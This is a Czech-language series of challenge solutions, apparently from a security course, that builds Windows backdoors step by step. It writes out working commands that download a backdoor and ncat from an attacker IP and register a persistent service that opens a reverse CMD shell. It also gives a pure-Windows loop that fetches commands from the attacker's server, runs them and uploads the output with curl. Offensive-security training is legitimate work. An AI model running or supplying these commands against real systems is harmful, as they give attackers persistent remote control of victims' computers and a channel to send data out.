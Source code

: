 	Stáhneme backdoor u oběti
		CURL http://1.2.3.170/backdoor.bat --output backdoor.bat
Nevýhoda:
	Backdoor musí být spuštěn uživatelem s admin oprávněním. Bez tohoto oprávnění nemáme možnost spouštět obsažené příkazy.


Challenge 9
-----------
Úkol:	Upravte backdoor z předchozí challenge tak, aby CMD odešlo útočníkovi i po spuštění běžným uživatelem

Rešení:
	ECHO 1 > %SystemDrive%\test.txt
	IF EXIST %SystemDrive%\test.txt (
		DEL %SystemDrive%\test.txt
		CURL http://1.2.3.170/ncat.exe --output %windir%\ncat.exe
		CURL http://1.2.3.170/srvany.exe --output %windir%\srvany.exe
		SC CREATE backdoor binpath= srvany.exe
		REG ADD HKLM\SYSTEM\CurrentControlSet\Services\backdoor\Parameters /v Application /t REG_SZ /d "NCAT 1.2.3.170 443 -e CMD.exe"
		SC START backdoor
	) ELSE (
		CURL http://1.2.3.170/ncat.exe --output %temp%\ncat.exe
		%temp%\ncat.exe 1.2.3.170 443 -e CMD.exe
	)


Challenge 10
------------
Úkol:	Zbavte se nástroje SRVANY, použijte pouze to, co nabízí Windows v základu
Řešení:	Pokud budeme spouštět libovolnou binárku jako službu následujícím způsobem
		SC CREATE notepad1 binpath= notepad.exe
		SC START notepad1
	dojde po 30s k sestřelení služby (procecu notepad.exe), protože služba neodpověděla
	Pokud ale binárku spustíme skrz CMD následujícím způsobem
		SC CREATE notepad2 binpah= "CMD /k notepad.exe"
		SC START notepad2
	bude po 30s sestřelen pouze proces CMD, kdežto všechny další spuštěné procesy (notepad.exe) zůstanou dál běžet po neomezeně dlouhou dobu

Challenge 11
------------
Úkol:	Zbavte se nástroje NCAT, použijte pouze to, co nabízí Windows v základu
Řešení:
	Vytvoříme nekonečnou smyčku, která bude v pravidelných intervalech:
		- stahovat příkaz z webu útočníka
		- vykonávat tento příkaz v CMD
		- výsledek ukládat do souboru
		- odesílat tento soubor útočníkovi

	FOR /L %i IN (0,0,1) DO CURL http://192.168.56.170/command.txt | CMD > %temp%\output.txt && CURL --form file=@%temp%\output.txt http://192.168.56.170/save.php && TIMEOUT /t 10
